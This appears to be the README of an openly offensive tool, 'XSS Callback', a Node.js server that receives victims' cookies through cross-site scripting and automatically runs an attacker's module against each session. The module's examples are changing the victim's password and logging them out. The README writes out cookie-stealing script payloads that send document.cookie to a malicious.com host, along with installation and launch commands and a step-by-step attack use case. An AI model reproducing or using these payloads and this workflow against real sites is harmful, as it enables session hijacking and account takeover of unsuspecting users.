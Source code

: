 ### XSS Callback

XSS Callback is a tool allowing you to exploit XSS vulnerabilities.

This is a HTTP Server (developed in Node.js) that is listening on a specific port (defined when launching it).
Everytime a victim will load the malicious link with his own cookie, the server will automatically launch the *offensive* module that you've written. 

**Example of module :**

*After getting the user's cookie :*
- Send a request to change his password
- Log him out

When the victim will load the malicious site wich such URL : 

```
http://malicious.com/cookie/<my-cookie>
```

This 'event' will trigger the exploit function in your custom module. 


### Basic exploitation of XSS 

One common way to exploit those flaws is to create a PHP file/CGI script that will harvest victim's cookies and collect them in some file/database. 

Example of those basic payload : 
```
<script>document.location='http://malicious.com/cookie.php?cookie='+document.cookie</script>
```

Then, the attacker will be able to re-use those information to hijack victim's session. Ok. 
<br />

### What to do with XSS Callback ? 

Instead of reading your file for victim's cookie, XSS Callback is doing **your** job by calling your *offensive* module,  dynamically loaded when starting the App. 

You just need to write your own module corresponding to the application you want to target and launch the application to be accessible from the outside. (On your server)

You don't have to wait and read a file anymore. You perform the attack directly when you receive some data on this specific URL. 
This is the concept of *event driven programming*. 
### Installation

Just clone the project : 
```
git clone git@github.com:PaulSec/XSS-Callback.git
```

Go in the directory and launch the application for the usage : 

```
cd XSS-Callback && node server.js
```

Usage is then displayed : 

```
Usage : node server.js <module.js> <port : default 8080>
```
### Use case


#### 1) Find a XSS

Ok, you got it! 

#### 2) Write your (offensive) module

Create your module in the folder ```module```.
To have an overview, check the **template.js** module to have an idea. 
The module **HAS** to have a *exploit* function. 

The cookie of the victim is stored in the variable : ```req.params.cookie```. 

#### 3) Launch XSS Callback : 

On malicous.com, launch the tool : 

```
node server.js ./module/my-module.js 8080
```

#### 4) Insert your payload
Insert your payload on the website : 

```
<script>document.location='http://malicious.com:8080/cookie/'+document.cookie</script>
```

#### 5) Check the console log
You can see clients loading your page through the XSS, while your module is processing the attack using your victim's session. 
<br />
### License & Conclusion

Tool released under MIT License. 
Feel free to give your feedback, ask for new features for this tool. 
Moreover, if you need an example of how to write a module, don't hesitate. 

